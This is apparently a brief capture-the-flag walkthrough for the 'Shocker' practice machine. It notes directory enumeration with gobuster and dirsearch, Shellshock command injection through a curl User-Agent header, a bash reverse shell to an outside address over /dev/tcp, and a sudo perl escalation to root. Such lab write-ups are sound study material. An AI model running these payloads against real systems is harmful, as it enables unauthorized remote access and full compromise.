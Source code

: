 Since it name Shocker, so it means [**Shellshock Vulnerability**](https://owasp.org/www-pdf-archive/Shellshock_-_Tudor_Enache.pdf)

```Bash
since it is apache, so we use gobuster check /cgi-bin/   -x py, sh,pl only 
```

```Bash
curl -A "() { :;};echo; /bin/ls" http://10.10.10.56/cgi-bin/user.sh
```

```Bash
curl -A "() { :;};echo; /bin/bash -i >& /dev/tcp/10.10.14.14/1234 0>&1" http://10.10.10.56/cgi-bin/user.sh
```

```Bash
sudo -l  //we find perl
sudo /usr/bin/perl -e 'exec("/bin/sh -i")' // get root
```

use gobuster to find directory, need use —add-slash

```PowerShell
 sudo gobuster dir -w /Users/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt  -u http://10.10.10.56  -no -error --add-slash
```

after find /cgi-bin

```PowerShell
 sudo gobuster dir -w /Users/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt  -u http://10.10.10.56/cgi-bin  -no -error  -x php,txt,sh,pl
```

```PowerShell
dirsearch -u http://10.10.10.56/cgi-bin -e cgi,pl,sh
dirsearch -u http://10.10.10.56/
```